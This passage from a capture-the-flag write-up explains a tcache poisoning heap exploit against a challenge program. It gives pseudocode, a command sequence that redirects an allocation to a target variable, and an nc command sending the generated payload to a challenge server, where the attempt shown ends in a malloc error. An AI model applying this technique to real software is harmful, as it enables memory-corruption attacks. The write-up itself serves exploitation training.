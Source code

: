 The `tcache poisoning` works like follows:

```c  
ptr0 = malloc small chunk  
ptr1 = malloc small chunk

free ptr1  
free ptr0

((tcache_entry*)ptr0)->next = modified pointer

ptr0 = malloc small chunk  
ptr1 = malloc small chunk // <- this will be our modified pointer  
```

Translating this to our `mainframe` program code (naming collision: chunk here
is the chunk array used in mainframe, not the allocated chunk or entry in
tcache):

```bash  
A8                    # allocate 8 bytes to chunk[0]  
A8                    # allocate 8 bytes to chunk[1]  
D1                    # delete chunk[1]  
D0                    # delete chunk[2]

# at this point our tcache looks like this  
# tcache -> D0 -> D1

F0b081555555550000    # fill chunk[0] with address of 'check_var'

# at this point our tcache looks like this  
# tcache -> D0 -> check_var

A8                    # alloc 8 bytes to chunk[2]  
A8                    # alloc 8 bytes to chunk[3], alloc will return the
address pointing to 'check_var' now  
F3666c6167            # write 'flag' to chunk[3]  
```

Why do we write `flag` to chunk[3]? Since `delete` is not setting chunk `ptr`
to `NULL` the first two chunks are still considered allocated, so the next two
allocations are going to chunk[2] and chunk[3].

Well, perfection! Now we need to translate this into punchcards. I wrote a
small [`python script`](https://raw.githubusercontent.com/D13David/ctf-
writeups/main/cyberheroines23/pwn/ada_lovelace/gen.py) to automate this. Since
doing this manually,is a laborious process. Lets try it:

```bash  
$ python gen.py A8A8D1D0F0b081555555550000A8A8F3666c6167 | nc 139.144.30.173 9999  
Overwrite the value at 0x5555555581b0 so it's 'flag'  
Your super secret xor key is 0x555555559  
Enter your program:  
malloc(): unaligned tcache chunk detected  
```
